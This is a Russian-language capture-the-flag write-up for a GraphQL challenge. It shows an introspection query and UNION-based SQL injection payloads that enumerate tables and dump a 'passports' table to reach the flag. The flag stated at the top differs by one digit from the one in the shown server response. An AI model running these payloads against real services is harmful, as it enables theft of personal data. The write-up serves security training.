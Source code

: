 # В этом задании мы предлагаем вам познакомиться с темой GraphQL, разобратесь в ней и получите конфиденциальную информацию через веб-приложение: http://18.195.176.132/. Для решения задания вам могут пригодиться следующие ресурсы: [graphql-voyager](https://apis.guru/graphql-voyager/) и [Хабр. Пентест приложений с GraphQL](https://habr.com/ru/company/dsec/blog/444708/)

*** Ответ: flag{50e1a7e81d9814943dc6664a289a565}***

Прочитав предложенную статью с habr.com, скачиваем IDE Insomnia для отправки GraphQL-запросов. Заходим на сайт, ищем пакет с названием qraphql, импортируем header`ы и первым делом получаем query-запросы с помощью команды, приведенной в посте:

```GraphQL
    query {
        __schema {
          queryType {
            fields {
              name
              args {
                name
              }
            }
          }
        }
      }
```

Замечаем, что у нас есть два запроса, у которых есть поля аргументов -- это "searchTenderbyCity" и "searchTenderbyNumber". Как видно по названию, первый "поиск" ждет на вход параметр типа string, а второй - int. Так как в посте описаны методы пентеста, думаю стоит попробовать поискать уязвимости. Dos точно не подойдет, регистрировать/добавлять пользователей тоже нельзя, а кавычку отправить можно: 

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"Mos'cow")
        {
          idtender
        }
      }
```

И нам приходит ответ, в стиле "errors": [{"message": "ER_PARSE_ERROR: You have an error in your SQL syntax;...}]
Это говорит о том, что мы нашли SQL-injection

Следующей командой узнаем названия всех Sql-таблиц в этой БД (Предварительно подобрав количество колонок) 

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union select TABLE_NAME,2,3,4,5,6 from information_schema.tables#")
        {
          idtender
        }
      }
 ```
 
В наш взор попадают интересные таблицы: ...{"idtender": "authors"},{"idtender": "passports"},{"idtender": "tender"}...
Так как "authors" и "tender" мы можем получить даже с помощью запроса вида query, то passports мы видим впервые. Посмотрим, какие колонки содержит эта таблица:

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union SELECT COLUMN_NAME,2,3,4,5,6 FROM information_schema.COLUMNS where TABLE_NAME = 'passports'#")
        {
          idtender
        }
      }
```

Согласно ответу сервера, их всего 4: idpassports, first_name, second_name и serial_number. Посмотрим их содержимое

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union SELECT first_name,2,3,serial_number,idpassports,second_name FROM passports #")
        {
          idtender
          city
          description
          status
        }
      }
```

Ответ сервера выглядит вот так:

```GraphQL
    {
      "data": {
        "searchTenderbyCity": [
          {
            "idtender": "kek",
            "city": "pek",
            "description": "flag{50e1a7e81d9814943dc6664a289a3565}",
            "status": 1
          }
        ]
      }
    }
```
____
##### Score: 10/10
